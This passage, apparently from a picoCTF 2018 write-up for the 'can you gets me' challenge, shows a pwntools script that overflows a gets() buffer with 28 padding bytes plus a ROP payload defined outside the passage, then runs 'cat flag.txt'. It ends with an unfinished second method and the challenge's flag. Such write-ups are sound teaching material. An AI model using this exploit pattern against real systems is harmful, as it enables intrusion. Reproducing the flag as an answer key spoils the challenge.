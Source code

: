 ```python

if debug:
  p = process('./gets')
else:
  s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d')
  
  p = s.process('./gets')

print p.recvuntil('GIVE ME YOUR NAME!')

p.sendline('A' * 28 + payload)
p.sendline('cat flag.txt')
p.sendline('exit')

print p.recvall()
```

### Method 2 - "Build our own ROP chain (Reinventing the wheel)"
**TODO**

Flag: picoCTF{rOp_yOuR_wAY_tO_AnTHinG_700e9c8e}